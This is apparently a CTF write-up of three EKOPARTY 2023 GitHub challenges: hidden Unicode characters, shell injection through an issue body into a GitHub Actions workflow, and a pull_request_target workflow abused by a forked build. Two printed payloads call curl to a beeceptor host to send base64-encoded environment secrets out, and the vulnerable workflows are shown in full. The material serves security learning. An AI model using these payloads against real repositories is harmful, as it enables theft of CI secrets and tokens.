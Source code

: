 ```yaml
---
title: EKOPARTY 2023 - Github Repo
date: Fri Nov  3 08:26:38 PM +04 2023
categories: [Writeup]
tags: [ctf,ekoparty,ekoparty2023,github,pwn]
---
```


## Lobby

### Description

![lobby-1](/assets/images/ekoparty/2023/lobby-1.png)

[The-Lobby](https://github.com/OctoHigh/The-Lobby)

### Solution

If you visit the given URL you'll be see a `README.md`

If you give it a quick read you'll notice some wierd symbols in the text.

I highlighted some:

![lobby-2](/assets/images/ekoparty/2023/lobby-2.png)

```py
➜ py
Python 3.9.5 (tags/v3.9.5:0a7dcbd, May  3 2021, 17:27:52) [MSC v.1928 64 bit (AMD64)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> s='''OcτoHigh, tʜe fictional high school nestlêd in the heart of a vibrant and picturesque town, ʜas long held the title of the best high school Ꭵn the country, and its reputation is well-ժeserved. What sets OctoHigh apart is its unwavering commitment to fostering both academic excellence and personal growth. The school boasts a faculty of ժistinguished educators who not only impart knowledge but also inspire and mentor their students. With small class sizes, personalized attention, and a wide array of advanced courses, OctoHigh consistently ranks at the top in national academic competitions and college admissions.
...
... Beyond academics, OctoHigh takes pride in its divěrse and inclusive community. Students from all backgrounds come together to create a tapestry of cultures and experieɴces, fostering a sense of unity and understanding that extends beyond the classroom. This rich environment encourages students to explore their interests, whether in the arts, sports, or community service. Ϝacilities at the school are state-of-the-art incᏞuding a top-tier performing arts center, a championship-level sports complex, and a community garden, provide the perfect setting for students to thrive in their chosen pursuits.
...
... What truly makes OctoHigh stand out is its commitment to charɑcter development. The school's comprehensive character education program helps students grow into well-rounded individuals who value integrity, empathy, and social responsibility. ɢraduates of OctoHigh are not just academᎥcally accomplished; they are also compassionate and responᏚible citizens who are well-prepared to make a positive impact on the world. It's no wonder that OctoᎻigh continues to bė celebrated as the best high school in the countᚱy, as it combines academic excěllence, inclusivity, and character development to provide students with the tools they need to succeed in both their academic and personal lives.
...
... Also, they have the top rated CTF team in the world!'''
>>> for c in s:
...     if ord(c) > 255: # If Not Ascii
...         print(c, end='')
...
τʜêʜᎥժժěɴϜᏞɑɢᎥᏚᎻėᚱě>>>
```

> Flag: EKO{thehiddenflagishere}
{: .prompt-tip }


## Comments

### Description

![comments-1](/assets/images/ekoparty/2023/comments-1.png)

### Solution

As mentioned in github repo you should navigate to `Issues` and sign up by commenting `/join`. 

![comments-2](/assets/images/ekoparty/2023/comments-2.png)

After signing up CI/CD step is going to start and create repos:

```yaml
<snip>

console.log('%s showed up to class!', process.env.LOGIN);
console.log('Creating player repos ...');
await github.rest.repos.createUsingTemplate({
    template_owner: 'OctoHigh',
    template_repo: 'challenge-1',
    name: `challenge-1-${process.env.LOGIN}`,
    owner: 'OctoHigh',
    private: false
});

<snip>

await github.rest.repos.createUsingTemplate({
    template_owner: 'OctoHigh',
    template_repo: 'challenge-2',
    name: `challenge-2-${process.env.LOGIN}`,
    owner: 'OctoHigh',
    private: false
});

<snip>
```

Navigate to your repo in `OctoHigh` account, `https://github.com/OctoHigh/challenge-1-{Your Github Handle}`.

> You'll also recieve an email about joining
{: .prompt-info }

![comments-3](/assets/images/ekoparty/2023/comments-3.png)

Workflow:
```yaml
name: Parse review of teacher

on:
  issues:
    types: [opened, edited]

jobs:
  parse-review:
    runs-on: ubuntu-latest
    steps:
      - name: Extract Teacher name and review from issue body
        id: extract-review
        env: 
          db_pass: ${{ secrets.FLAG }} # Do we still need this to write to the DB?
        run: |
          TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
          REVIEW=$(echo '${{ github.event.issue.body }}' | grep -vP 'Teacher:.*$')
          echo "::set-output name=teacher::$TEACHER"
          echo "::set-output name=review::$REVIEW"
      - name: Comment on issue
        uses: actions/github-script@v5
        with:
          github-token: ${{secrets.GITHUB_TOKEN}}
          script: |
            const issueComment = {
              owner: context.repo.owner,
              repo: context.repo.repo,
              issue_number: ${{ github.event.issue.number }},
              body: `Thank you for reviewing ${'{{ steps.extract-review.outputs.teacher }}'}! Your review was: 
              ${'{{ steps.extract-review.outputs.review }}'}`
            };
            github.rest.issues.createComment(issueComment);
```

The exploit in the yaml is shell command. If you take a look at `TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')` there's no way to exploit it, because for some command to execute bash needs `"` (double quotes), nothing will happen in single quotes. Since there's no validation we can just escape single quotes `'`, add command, close the quote. 

TLDR; sandwich the bash command into Issue Template.

![comments-4](/assets/images/ekoparty/2023/comments-4.png)

Payload: 

```
Teacher:' $(curl "https://uwuos.free.beeceptor.com/?flag=$(env|grep -i EKO|base64)") '
```

Response on beeceptor:

```
GET /?flag=ZGJfcGFzcz1FS097bTB2ZV95MHVSX2IwZHl9Cg==
```

```
└─$ echo -n 'ZGJfcGFzcz1FS097bTB2ZV95MHVSX2IwZHl9Cg==' | base64 -d
db_pass=EKO{m0ve_y0uR_b0dy}
```

> Flag: EKO{m0ve_y0uR_b0dy}
{: .prompt-tip }


## Fork Knife

### Description

![fork-knife-1](/assets/images/ekoparty/2023/fork-knife-1.png)

![fork-knife-2](/assets/images/ekoparty/2023/fork-knife-2.png)

### Sources

{::options parse_block_html="true" /}

<details><summary markdown="span">grade.yaml</summary>

```yaml
on:
  pull_request_target

jobs:
  build:
    name: Grade the test
    runs-on: ubuntu-latest
    steps:

    - uses: actions/checkout@v2
      with:
        ref: ${{ github.event.pull_request.head.sha }}
        
    - name: Run build & tests
      id: build_and_test
      env: 
        EXPECTED_OUTPUT: ${{ secrets.FLAG }}
      run: |
        /bin/bash ./build.sh > output.txt && /bin/bash ./test.sh

    - uses: actions/github-script@v3
      with:
        github-token: ${{secrets.GITHUB_TOKEN}}
        script: |
          github.issues.createComment({
            issue_number: context.issue.number,
            owner: context.repo.owner,
            repo: context.repo.repo,
            body: "👋 Your code looks great, good job! You've passed the exam!"
          })
```
</details>

<details><summary markdown="span">build.sh</summary>

```sh
#!/bin/bash

# Compile the C++ program
g++ -o submission submission.c

# Check if the compilation was successful
if [ $? -eq 0 ]; then
    echo "Build successful. The program has been compiled as 'submission'."
else
    echo "Build failed. Please check the compilation errors."
fi
```

</details>

<details><summary markdown="span">test.sh</summary>

```sh
#!/bin/bash

# Define the expected output from the environment variable
EXPECTED_OUTPUT="$EXPECTED_OUTPUT"

# Read the content of the output.txt file
if [ -f "output.txt" ]; then
    ACTUAL_OUTPUT=$(cat "output.txt")
else
    echo "Error: 'output.txt' file not found."
    exit 1
fi

# Compare the expected output with the actual output
if [ "$EXPECTED_OUTPUT" = "$ACTUAL_OUTPUT" ]; then
    echo "Validation passed: The content of 'output.txt' matches the expected output."
    exit 0
else
    echo "Validation failed: The content of 'output.txt' does not match the expected output."
    exit 1
fi
```

</details>

{::options parse_block_html="false" /}

### Solution
 
I modified `build.sh` and `submission.c` with following changes:

![fork-knife-3](/assets/images/ekoparty/2023/fork-knife-3.png)

![fork-knife-4](/assets/images/ekoparty/2023/fork-knife-4.png)

Not the most efficient way to do it, but works D:

Payload:

```c
system("curl https://uwuos.free.beeceptor.com/?flag=`env|grep -i EKO|base64`");
```

> Flag: EKO{pr3v3nt_PWN_r3qu3stS}
{: .prompt-tip }

